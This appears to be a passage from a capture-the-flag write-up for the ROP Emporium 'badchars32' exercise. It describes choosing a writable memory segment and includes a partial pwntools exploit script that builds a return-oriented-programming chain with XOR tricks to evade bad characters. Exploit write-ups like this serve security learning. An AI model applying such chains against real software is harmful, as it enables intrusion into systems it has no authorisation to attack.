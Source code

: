 A crucial lesson was then learned. The GOT is also known as the Global Offset Table, and is used for holding addresses of functions, that need to be called. I was quite literally writing to the space in memory, that holds function addresses, does that seem smart, when I'm trying to call a print_file function? No? No, not really.

So let's try it with a different memory segment:, I used a segment with 4 bytes of size

```
b"Thank you!\nFailed to open file: flag\n\nChild exited with status 1\n"
```
Ofcourse this would yield an error since the flag is in "flag.txt", and we only control 4 bytes

I tried again but with .data, which is 8 bytes and boom!
```
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

Exploit:

```python
#Is it too late now to say XORy?

from pwn import *

elfPath="./badchars32"
context.arch="i386"

#BL is the lower 8 bits/1 byte of ebx: pop ebx=0xdeadbeef, then bl="ef" (or something like this)


useFunc=p32(0x08048538) #print
datasegm= 0x0804a018 

xor_ebp_bl = p32(0x08048547) #xor [ebp],bl
mov_edi_esi = p32(0x0804854f) #mov [edi], esi

pop_esi_edi_ebp=p32(0x080485b9)      #pop esi; pop edi; pop ebp; ret
pop_ebx=p32(0x0804839d)      #pop ebx; ret
pop_ebp=p32(0x080485bb)      #pop ebp; ret

badCharstxt=["x","g","a","."]

gdbscript= """
c
"""

terminalSetting = ['gnome-terminal', '-e']
context.clear(terminal=terminalSetting)

io = pwnlib.gdb.debug(elfPath, gdbscript = gdbscript)

#mnm = cyclic_gen()
#mnm = mnm.get(80)
point=cyclic_find(b"laaa", endian="little")
#6161616c is at the return or laaa


def main():
    print(io.recvuntil("> "))

    payload=b"A"*point #padding
    
    payload+=pop_esi_edi_ebp+b"dnce"+p32(datasegm)+p32(datasegm) #Sets esi="dnce", edi=address of .data, ebp=address of .data
    payload+=mov_edi_esi #moves esi into the address of edi ("dnce" -> .data)

######################################################
```